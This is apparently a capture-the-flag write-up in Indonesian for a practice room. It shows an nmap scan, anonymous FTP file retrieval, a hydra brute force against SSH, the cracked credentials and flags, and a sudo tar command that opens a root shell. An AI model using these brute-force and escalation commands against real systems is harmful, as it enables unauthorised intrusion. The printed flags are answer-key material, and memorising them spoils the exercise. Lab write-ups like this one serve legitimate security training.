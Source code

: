 Lakukan scanning dengan `nmap`

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.54.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

Terdapat 3 port yang terbuka, yaitu 21, 22, dan 80.

Selanjutnya coba login ke ftp port dengan `anonymous` user

```shell
ftp IP-Target
```

lalu kita `ls`, dan nantinya akan ada 2 file dalam server ftp. kita dapat mengambil file tersebut dengan cara

```shell
get locks.txt
get task.txt
```

Isi dari `task.txt` dapat dibaca, dan isi dari `locks.txt` spertinya merupakan password. Selanjutnya kita bisa brute force ke ssh dengan menggunakan `hydra`. kita dapat membuat list potensial nama user dari yang ada di website, dan ditambah dari task.txt

```shell
nano potusr.txt

lin
spike
jet
edward
ed
ein
faye
peppers
beef
```

Selanjutnya kita dapat mulai brute force dengan cara

```shell
hydra -V -L potusr.txt -P locks.txt 10.10.244.3 ssh -t 4
```

Hasil bruteforce `hydra`

```
lin:RedDr4gonSynd1cat3
```

Kita dapat login dengan creds tersebut.

```shell
ssh lin@IP

Password:RedDr4gonSynd1cat3
```

Selanjutnya kita dapat melihat isi dari flag pertama di direktori saat kita login

```shell
cat user.txt

THM{CR1M3_SyNd1C4T3}
```

Untuk mendapat privesc dan root flag, kita dapat menggunakan SUID. Kita dapat cek dengan cara `sudo -l`, dan hasilnya:

```shell
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

maka kita bisa ke [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) untuk dapat keluar dari binary restricted shell. Dalam hal ini, kita dapat memanfaatkan tar

```shell
sudo tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
```

ketika di enter, maka nantinya kita akan mendapat root shell, maka kita dapat melihat root flag.

```shell
cat /root/root.txt

THM{80UN7Y_h4cK3r}
```

